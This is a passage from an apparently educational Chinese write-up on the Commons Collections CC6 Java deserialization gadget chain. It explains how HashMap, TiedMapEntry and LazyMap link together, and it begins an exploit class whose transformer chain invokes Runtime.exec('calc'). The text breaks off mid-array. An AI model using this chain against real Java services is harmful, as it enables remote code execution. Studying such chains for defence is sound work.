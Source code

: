 ## CommonsCollections6:

### 调用链：

CC1在jdk的包更新到8u71以后，就对漏洞点进行了修复（`CC1TransformedMap`链去掉了`Map.Entry`的`setValue`方法）（`CC1LazyMap`使用了`put`对类进行传参），因为反序列化不仅对类有依赖，还对外部的CC库，以及jdk版本有依赖，所以这里CC1就并不那么兼容，就引入了`CC6`不受`jdk`版本的限制：

CC6中引用了`HashMap`来进行反序列化链子的构造，通过`HashMap`里面的`readObject`方法来调用里面的`put`方法，然后调用hash方法最后调用`hashCode`方法，如果从`hashCode`里面能找到的一个调用`get`的链，就成功了，这样就不会受到jdk版本的限制：

[![](assets/1701612311-70832c63c71f6bb6439d8a29e1f32168.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235217-13a4fd7c-20cc-1.png)

然后我们在TiedMapEntry中找到了hashCode方法，然后调用getValue()方法，然后再通过map调用LazyMap中的get方法

```plain
public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
```

```plain
private final Map map;
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }
public Object getValue() {
        return map.get(key);
}
```

所以这里我们将TiedMapEntry实例化以后，传入对应的map值为实例化以后的LazyMap，然后再通过Hashmap中的put方法将TiedMapEntry传入。

### EXP问题：

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{


        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
```